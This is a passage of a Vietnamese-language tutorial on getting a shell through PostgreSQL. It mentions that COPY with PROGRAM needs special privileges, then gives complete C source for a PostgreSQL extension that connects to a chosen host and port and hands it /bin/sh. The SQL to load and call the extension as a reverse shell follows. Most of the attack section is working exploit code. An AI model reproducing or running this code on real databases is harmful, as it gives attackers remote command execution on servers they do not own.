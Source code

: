 **Lưu ý**: Để có thể sử dụng `COPY` với `PROGRAM`, người dùng cần có quyền `pg_execute_server_program` hoặc là superuser.

### Phương Pháp 2: Sử Dụng PostgreSQL Extensions

Cách thứ hai là sử dụng PostgreSQL Extensions, cho phép người dùng tải các thư viện tùy chỉnh vào PostgreSQL để mở rộng chức năng. Một ví dụ điển hình là việc tạo một extension C để thực hiện một reverse shell.

#### Ví Dụ về Reverse Shell Extension

Chúng ta có thể tạo một extension C để thực hiện reverse shell như sau:

```c
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <stdio.h>

PG_MODULE_MAGIC;

PG_FUNCTION_INFO_V1(rev_shell);

Datum rev_shell(PG_FUNCTION_ARGS) {
    char *LHOST = text_to_cstring(PG_GETARG_TEXT_PP(0));
    int32 LPORT = PG_GETARG_INT32(1);
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(LPORT);
    inet_pton(AF_INET, LHOST, &serv_addr.sin_addr);

    int sock = socket(AF_INET, SOCK_STREAM, 0);
    int client_fd = connect(sock, (struct sockaddr*)&serv_addr, sizeof(serv_addr));

    dup2(sock, 0);
    dup2(sock, 1);
    dup2(sock, 2);

    execve("/bin/sh", NULL, NULL);
    PG_RETURN_INT32(0);
}
```

Sau khi biên dịch và tải extension này vào PostgreSQL, bạn có thể sử dụng câu lệnh sau để kích hoạt reverse shell:

```sql
bluebird=# CREATE FUNCTION rev_shell(text, integer) RETURNS integer AS '/tmp/pg_rev_shell', 'rev_shell' LANGUAGE C STRICT;
CREATE FUNCTION
bluebird=# SELECT rev_shell('127.0.0.1', 443);
```

Khi bạn gọi lệnh này, PostgreSQL sẽ tạo kết nối đến `127.0.0.1` trên port `443`, và bạn sẽ nhận được một shell ngược.

